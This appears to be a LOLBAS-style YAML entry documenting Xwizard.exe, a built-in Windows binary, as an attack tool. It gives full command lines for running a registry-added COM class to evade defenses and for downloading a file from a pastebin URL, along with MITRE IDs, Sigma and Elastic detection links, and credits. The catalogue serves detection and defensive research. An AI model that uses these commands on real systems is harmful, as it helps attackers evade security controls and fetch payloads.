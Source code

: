 ```yaml
---
Name: Xwizard.exe
Description: Execute custom class that has been added to the registry or download a file with Xwizard.exe
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: xwizard RunWizard {00000001-0000-0000-0000-0000FEEDACDC}
    Description: Xwizard.exe running a custom class that has been added to the registry.
    Usecase: Run a com object created in registry to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: xwizard RunWizard /taero /u {00000001-0000-0000-0000-0000FEEDACDC}
    Description: Xwizard.exe running a custom class that has been added to the registry. The /t and /u switch prevent an error message in later Windows 10 builds.
    Usecase: Run a com object created in registry to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: xwizard RunWizard {7940acf8-60ba-4213-a7c3-f3b400ee266d} /zhttps://pastebin.com/raw/iLxUT5gM
    Description: Xwizard.exe uses RemoteApp and Desktop Connections wizard to download a file, and save it to INetCache.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Windows\System32\xwizard.exe
  - Path: C:\Windows\SysWOW64\xwizard.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_class_exec_xwizard.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_dll_sideload_xwizard.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/execution_com_object_xwizard.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
Resources:
  - Link: http://www.hexacorn.com/blog/2017/07/31/the-wizard-of-x-oppa-plugx-style/
  - Link: https://www.youtube.com/watch?v=LwDHX7DVHWU
  - Link: https://gist.github.com/NickTyrer/0598b60112eaafe6d07789f7964290d5
  - Link: https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/
  - Link: https://twitter.com/notwhickey/status/1306023056847110144
Acknowledgement:
  - Person: Adam
    Handle: '@Hexacorn'
  - Person: Nick Tyrer
    Handle: '@NickTyrer'
  - Person: harr0ey
    Handle: '@harr0ey'
  - Person: Wade Hickey
    Handle: '@notwhickey'
---
```

